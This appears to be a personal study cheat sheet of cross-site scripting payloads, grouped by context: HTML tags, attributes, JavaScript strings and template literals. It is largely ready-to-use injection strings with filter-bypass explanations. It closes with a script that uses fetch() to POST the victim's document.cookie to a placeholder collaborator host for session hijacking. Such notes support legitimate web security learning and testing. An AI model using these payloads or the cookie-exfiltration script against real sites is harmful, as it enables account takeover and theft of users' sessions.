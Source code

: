 Context

### 1)XSS between html tags

<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
<body onresize=print() onload=this.style.width='100px'/>


Custom html element creation if most tags blocked but embed it inside script tag

<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 
Complete payload is
<script>
location = 'https://Hostname/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


Event handler and href attribute blocked

<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

SVG markup allowed
<svg><animatetransform onbegin=alert(1)>


### 2)XSS in HTMl tag attributes 

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tags
"><script>alert(document.domain)</script>

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler

" autofocus onfocus=alert(document.domain) x="    user supplied data was sent inside html element
creates an onfocus event that will execute JavaScript when the element receives the focus, and also adds the autofocus attribute to try to trigger the onfocus event automatically without any user interaction. Finally, it adds x=" to gracefully repair the following markup.

Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script.

<a href="javascript:alert(document.domain)">  user supplied data was sent to href 

XSS in canonical tag
You might encounter websites that encode angle brackets but still allow you to inject attributes. Sometimes, these injections are possible even within tags that don't usually fire events automatically, such as a canonical tag. You can exploit this behavior using access keys and user interaction on Chrome. Access keys allow you to provide keyboard shortcuts that reference a specific element. The accesskey attribute allows you to define a letter that, when pressed in combination with other keys (these vary across different platforms), will cause events to fire

When inside an html tag
'accesskey='x'onclick='alert(1)
This sets the X key as an access key for the whole page. When a user presses the access key, the alert function is called. 

### 3)XSS in Javascript

In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript 
XSS into a JavaScript string with single quote and backslash escaped
</script><img src=1 onerror=alert(document.domain)>   user supplied data was sent into script 

Breaking out of a JavaScript string
In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly. It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.

Examples : 
'-alert(document.domain)-'
';alert(document.domain)// 

XSS into a JavaScript string with angle brackets HTML encoded
';alert(1)// 
' to escape out of string, ; to end the current instruction(remember we are inside script tag)
// to terminate rest of part to avoid errors in script otherwise it wont execute

Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash. A backslash before a character tells the JavaScript parser that the character should be interpreted literally, and not as a special character such as a string terminator. In this situation, applications often make the mistake of failing to escape the backslash character itself. This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.

';alert(document.domain)//           gets converted to:  \';alert(document.domain)// 

\';alert(document.domain)//         which gets converted to: \\';alert(document.domain)// 
Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds. 

XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
\';alert(document.domain)//


<script>onerror=alert;throw 1337</script>
If semir colons filtered then use {} to create a block of code 
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

XSS in a JavaScript URL with some characters blocked
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
Do that if we have a parameter

 When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters.

***When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters.***

<a href="#" onclick="... var input='controllable data here'; ...">   and the application blocks or escapes single quote characters, you can use the following payload to break out of the JavaScript string and execute your own script: 

&apos;-alert(document.domain)-&apos;      we are inside an attribute and quotes are blocked to escape it 

angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
 
HTML encoded 
' = &apos;
" = &quot;
Dont forget semi colons

http://foo?&apos;-alert(1)-&apos;    we are inside script first part is our website address , &apos; breaks out of string execute alert then close the apostrophe to not cause errors in script or else it wont execute

XSS in javascript template literals

JavaScript template literals are string literals that allow embedded JavaScript expressions. The embedded expressions are evaluated and are normally concatenated into the surrounding text. Template literals are encapsulated in backticks instead of normal quotation marks, and embedded expressions are identified using the ${...} syntax.

When the XSS context is into a JavaScript template literal, there is no need to terminate the literal. Instead, you simply need to use the ${...} syntax to embed a JavaScript expression that will be executed when the literal is processed.

${alert(document.domain)}
XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

&quot; ${alert(1)}                We are already inside script tag
quot to escape quotes and need to use html encodding since quotes escaped, we are still inside template literal so ${alert}  will execute alert 


### Exploiting cross-site scripting to steal cookies

 Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

In practice, this approach has some significant limitations:

- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the HttpOnly flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
